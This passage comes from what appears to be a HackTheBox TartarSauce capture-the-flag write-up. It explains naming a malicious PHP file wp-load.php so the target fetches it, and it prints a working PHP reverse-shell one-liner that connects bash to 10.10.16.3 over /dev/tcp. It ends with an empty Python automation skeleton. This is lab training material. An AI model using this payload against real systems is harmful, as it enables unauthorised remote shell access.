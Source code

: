 And we see that it reach us

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:21:26.png)

And it try to get **/wp-load.php** file, so if we put a malicious php file with this name, it'll trigger it and give us a reverse shell!

# Reverse Shell - www-data

And we simply made it

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.3/1234 0>&1'");
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:25:24.png)

Now let's easily automate it.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:39:26.png)
